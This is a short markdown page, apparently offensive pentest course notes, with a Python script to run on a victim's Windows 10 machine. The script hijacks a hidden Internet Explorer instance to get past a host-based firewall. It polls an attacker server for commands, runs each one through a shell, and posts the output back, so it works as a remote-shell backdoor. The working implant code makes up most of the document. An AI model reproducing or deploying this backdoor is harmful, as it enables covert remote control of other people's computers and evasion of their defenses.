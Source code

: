```yaml
---
title: Hickjack the Internet Explorer process to bypass an host-based firewall
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# Hickjack the Internet Explorer process to bypass an host-based firewall

For our script to bypass a host-based firewall (based on an ACL), we will hickjack the Internet Explorer process to conceal our traffick and bypass it.



## Client side

Make sure that the victim machine (a windows 10) has installed these two python libraries: pypiwin32 and pywin32.

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= visible)

# Paramaeters for POST
dURL = "http://192.168.0.152"  
Flags = 0
TargetFrame = 0


while True:
    ie.Navigate("http://192.168.0.152") # Navigate to our kali web server (the attacker machine) to grab the hacker commands
    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML 
    command = command.encode() # encode the command
    if 'terminate' in command.decode():
        ie.Quit() # quit the IE and end up the process
        break
    else:
        CMD = subprocess.Popen(command.decode(), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        Data = CMD.stdout.read()
        PostData = memoryview( Data ) # in order to submit or post data using COM technique , it requires to  buffer the data first using memoryview
        ie.Navigate(dURL, Flags, TargetFrame, PostData) # we post the comamnd execution result along with the post parameters which we defined eariler..

    sleep(3)

```
